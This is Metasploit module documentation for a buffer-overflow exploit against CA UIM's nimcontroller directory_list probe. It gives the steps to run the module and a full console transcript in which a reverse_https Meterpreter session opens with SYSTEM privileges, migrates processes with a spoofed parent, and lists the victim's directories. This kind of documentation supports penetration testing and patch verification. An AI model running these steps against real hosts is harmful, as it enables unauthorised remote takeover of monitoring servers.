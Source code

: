 ## Vulnerable Application

All CA Infrastructure Management monitoring agents prior to 9.20 are vulnerable to a buffer overflow vulnerability
within the nimcontroller when using the directory_list probe. Since the directory_list probe requires read privileges
the target host must also be vulnerable to CVE-2020-8010 to bypass ACL settings. Successful code execution will result
in a NT AUTHORITY\SYSTEM shell, even if exploitation fails the remote service will not crash. You should be able to
exploit the service an unlimited amount of times.

## Verification Steps

1. Install the CA UIM v7.80.3132 (nimsoftrobotXXX.exe)
2. Start `msfconsole`
3. Do `use exploit/windows/nimsoft/nimcontroller_bof`
4. Do `set RHOSTS <ip>`
5. Do `exploit`
6. Verify shell is opened and service is still accessible

### Links

[CA UIM](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/getting-started/ca-uim-overview.html)
[Nimsoft Probe Utility](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/administering/run-probe-commands-from-a-command-prompt.html)

## Options

## Scenarios

### Windows 10 x64

```
msf exploit(windows/nimsoft/nimcontroller_bof) > options

Module options (exploit/windows/nimsoft/nimcontroller_bof):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DIRECTORY  C:\              no        Directory path to obtain a listing
   RHOSTS     W.X.Y.Z          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      48000            yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     A.B.C.D          yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal (x64) - v7.80.3132


msf exploit(windows/nimsoft/nimcontroller_bof) > exploit

[*] Started HTTPS reverse handler on https://A.B.C.D:8443
[*] W.X.Y.Z:48000 - Executing automatic check (disable AutoCheck to override)
[*] https://A.B.C.D:8443 handling request from W.X.Y.Z; (UUID: rpsri4cm) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (A.B.C.D:8443 -> W.X.Y.Z:50980) at 2020-07-21 11:14:09 -0500
[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\

 12/15/2019 06:24 PM  <DIR> $GetCurrent
 12/14/2019 01:41 AM  <DIR> $Recycle.Bin
 10/18/2019 05:55 PM  <DIR> Documents and Settings
 07/21/2020 10:15 AM  <DIR> pagefile.sys
 07/14/2020 03:41 PM  <DIR> PerfLogs
 06/10/2020 09:18 AM  <DIR> Program Files
 07/19/2020 01:37 PM  <DIR> Program Files (x86)
 07/14/2020 03:41 PM  <DIR> ProgramData
 12/15/2019 07:08 PM  <DIR> Recovery
 07/21/2020 10:15 AM  <DIR> swapfile.sys
 10/18/2019 04:04 PM  <DIR> System Volume Information
 12/15/2019 07:09 PM  <DIR> Users
 07/18/2020 02:20 PM  <DIR> Windows

[+] W.X.Y.Z:48000 - The target is vulnerable.

meterpreter >
[*] Session ID 1 (A.B.C.D:8443 -> W.X.Y.Z:50980) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against DESKTOP-JICNNRT
[*] Current server process: notepad.exe (1860)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 7472
[+] Successfully migrated into process 7472

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/nimsoft/nimcontroller_bof) > set DIRECTORY C:\\Users\\
DIRECTORY => C:\Users\
msf exploit(windows/nimsoft/nimcontroller_bof) > check

[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\Users\

 03/19/2019 12:02 AM  <DIR> All Users
 12/15/2019 07:14 PM  <DIR> Default
 03/19/2019 12:02 AM  <DIR> Default User
 03/18/2019 11:49 PM  <DIR> desktop.ini
 07/19/2020 01:37 PM  <DIR> REDACTED
 12/15/2019 09:07 PM  <DIR> Public

[+] W.X.Y.Z:48000 - The target is vulnerable.
```

